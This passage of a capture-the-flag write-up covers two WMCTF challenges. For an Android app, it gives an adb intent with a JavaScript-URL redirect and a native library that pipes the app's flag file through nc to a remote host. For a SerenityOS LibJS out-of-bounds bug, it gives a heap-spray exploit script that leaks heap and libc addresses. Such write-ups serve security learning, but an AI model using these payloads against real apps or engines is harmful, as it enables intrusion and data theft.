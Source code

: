 ```Java
# adb shell am start -n com.wmctf.wmbabydroid/com.wmctf.wmbabydroid.MainActivity -d "JavaScript://www.google.com/%0d%0awindow.location.href='http://xx.xx.xx.xx/'"
```

exp.so

```C++
#include <jni.h>
#include <stdlib.h>
#include <string.h>

JNIEXPORT jint JNI_OnLoad(JavaVM* vm, void* reserved) {
    system("cat /data/data/com.wmctf.wmbabydroid/files/flag | nc xx.xx.xx.xx 233");
    return JNI_VERSION_1_6;
}
```

### Broobwser

The challenge is a simple out-of-bound read and write vulnerability in LibJS, the Javascript engine used in Serenity OS, an awesome project you should definitely have a look. The JS interpreter can be compiled and ran on a host machine, which is Ubuntu 22.04 here. 

Gaining control of the program is rather easy on your local machine, as offsets are fixed and can be calculated manually. However, the key obstacle here is the extremely unstable heap layout on the remote machine. Every additional newline may change the heap layout a lot. So the key here is to gain a stable AAR and AAW primitive. Here I used heap spray for stability. The rest part is to use the primitives to achieve ROP and get flag, which is ignored in the exp.

```js
function hex(i){return "0x" + i.toString(16);}
gc()

abs = []
dvs = []

for(var i = 0; i < 0x100; i++){
    abs.push(new ArrayBuffer(0x100));
    abs[i].byteLength = 0x1337;
}

for(var i = 0; i < 0x100; i++){
    dvs.push(new DataView(abs[i]));
    dvs[i].setBigUint64(0, 0x4141414141414141n, true);
    dvs[i].setBigUint64(8, BigInt(i), true);
}

for(var i = 0; i < 0x100; i++){
    heap_addr = dvs[i].getBigUint64(0x1f8, true);
    size = dvs[i].getBigUint64(0x218, true);
    if(size == 0x3341n && heap_addr > 0x500000000000n){
        console.log(hex(heap_addr));
        break;
    }
}
if(heap_addr < 0x500000000000n){
    console.log("Try again 1");
    exit(0);
}

lib_lagom_leak = dvs[i].getBigUint64(0x2b8, true);
libc_base = lib_lagom_leak - 0xcb67b0n
console.log(hex(lib_lagom_leak));
console.log(hex(libc_base));

bin_sh = libc_base + 0x1d8698n;
```